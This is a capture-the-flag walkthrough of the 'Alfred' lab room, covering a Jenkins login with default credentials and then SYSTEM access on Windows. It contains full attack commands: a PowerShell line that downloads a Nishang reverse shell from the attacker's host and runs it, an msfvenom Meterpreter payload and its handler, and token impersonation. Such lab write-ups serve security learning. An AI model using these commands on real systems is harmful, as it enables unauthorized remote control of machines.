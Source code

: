 # Alfred

##### Written: 26/09/2021

##### IP Address: 10.10.113.167

======================

Let's start off with a basic **nmap** scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the **-Pn** tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **3** ports currently open on our target machine:

* Port **80**: HTTP
* Port **3389**
* Port **8080**: HTTP

<br>

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

After looking through the website and running a **Gobuster** scan, I was unable to find anything of interest. Let's move on to the web server on port 8080.

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! We found a login page to a **Jenkins server**. 

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

<br>

Let's go ahead and try using a common default username and password, **admin:admin**.

<img style="float: left;" src="screenshots/screenshot4.png">

Luckily for us, those credentials actually worked. We are able to log into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named **'project'**, then **'Configure'** on the left-hand side, then move down to the **'Build'** section.

<img style="float: left;" src="screenshots/screenshot5.png">

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be ```whoami```.

<img style="float: left;" src="screenshots/screenshot6.png">

Now, we simply click on **'Build Now'** on the project page, then click on the corresponding build in the **'Build History'** section, then click on the **'Console Output'** to see the results of our command.

<img style="float: left;" src="screenshots/screenshot7.png">

It works! This proves that we can run arbitrary commands on the server. Thus, we can use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a **Windows** machine, we will be using a Powershell reverse shell script that is part of the **Nishang** framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

<br>

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can download the script onto our target.

Next, we input the following command into the **'Build'** section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using ```Invoke-PowerShellTcp```.

<img style="float: left;" src="screenshots/screenshot8.png">

Finally, we make sure to have a **netcat** listener up and ready to catch the connection.

<br>

With everything set up, let's go ahead and build the project!

<img style="float: left;" src="screenshots/screenshot9.png">

And we're in :smile:

<img style="float: left;" src="screenshots/screenshot10.png">

**We can find the user flag from user.txt located in the Desktop of the user Bruce.**

---

To make the privilege escalation process easier, let's switch to a **Meterpreter shell** using **Metasploit**.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using **Msfvenom**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

<img style="float: left;" src="screenshots/screenshot11.png">

<br>

With our payload created, we can upload it onto the target machine using the same command method as before.

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

<img style="float: left;" src="screenshots/screenshot12.png">

For good measure, I'll also add in a ```dir``` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

<br> 

<img style="float: left;" src="screenshots/screenshot13.png">

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine.

Now, we just have to execute it using:

```
.\shell.exe
```

<img style="float: left;" src="screenshots/screenshot14.png">

<br>

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the **/multi/handler** module.

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With the TCP listener up and running in Metasploit, we can go ahead and build the project.

<img style="float: left;" src="screenshots/screenshot15.png">

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a Meterpreter shell, we can use **token impersonation** to gain system access.

*More information about Tokens can be found in the room description.*

<br>

Let's first spawn a shell that we can use. This can be done using the ```shell``` command in Meterpreter.

Next, we use the ```whoami /priv``` command to view all privileges on this account. The results are as follows:

<img style="float: left;" src="screenshots/screenshot16.png">

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit this vulnerability by using the **incognito** module in Metasploit. To load this, we first exit out of the shell. Then we use the command ```load incognito```. 

<img style="float: left;" src="screenshots/screenshot17.png">

<img style="float: left;" src="screenshots/screenshot18.png">

Loading this module gives us more commands that we can run on our target machine. We will be using the ```list_tokens``` command.

```
list_tokens -g
```

*The -g tag lists tokens by unique groupname*

**Results:**

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the ```impersonate_token``` command to impersonate the root user.

```
impersonate_token "BUILTIN\Administrators"
```

**Results:**

<img style="float: left;" src="screenshots/screenshot20.png">

With that, we have successfully impersonated the **root user (NT AUTHORITY\SYSTEM)**.

<br>

However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct **NT AUTHORITY\SYSTEM** permissions. 

According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the **PID** of the process. We can use the ```ps``` command.

<img style="float: left;" src="screenshots/screenshot21.png">

The PID of services.exe is **668**. 

<br>

Now we can migrate to the process using the following command:

```
migrate 668
```

<img style="float: left;" src="screenshots/screenshot22.png">

After the migration is complete, we can spawn a higher-privileged shell using the ```shell``` command again. We can then read the **root.txt** file located in **C:\Windows\System32\config** using the ```TYPE``` command.

<img style="float: left;" src="screenshots/screenshot23.png">

**With that, we can obtain the root flag and complete the room.**

